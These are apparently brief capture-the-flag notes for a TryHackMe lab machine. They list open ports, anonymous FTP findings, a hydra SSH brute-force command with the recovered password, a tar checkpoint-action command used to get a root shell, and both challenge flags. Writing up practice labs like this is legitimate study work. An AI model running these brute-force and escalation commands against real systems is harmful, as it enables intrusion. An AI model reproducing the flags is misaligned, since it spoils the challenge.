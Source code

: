 <pre>
Machine IP: 10.10.129.111

Enum:
    Open ports:
        21 ftp anonymous login allowed!
        22 ssh
        80 http



Login anonymous to ftp and find 
Locks.txt -> some creds
Task.txt -> answ


Lets brute force ssh(hydra):
    hydra -l lin -P locks.txt 10.10.129.111 -t 4 ssh
    login: lin   password: RedDr4gonSynd1cat3

Flags:
User:THM{CR1M3_SyNd1C4T3}
root: THM{80UN7Y_h4cK3r}



Take root:
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

And cat root in /root/root.txt

refs
https://gtfobins.github.io/gtfobins/tar/
</pre>
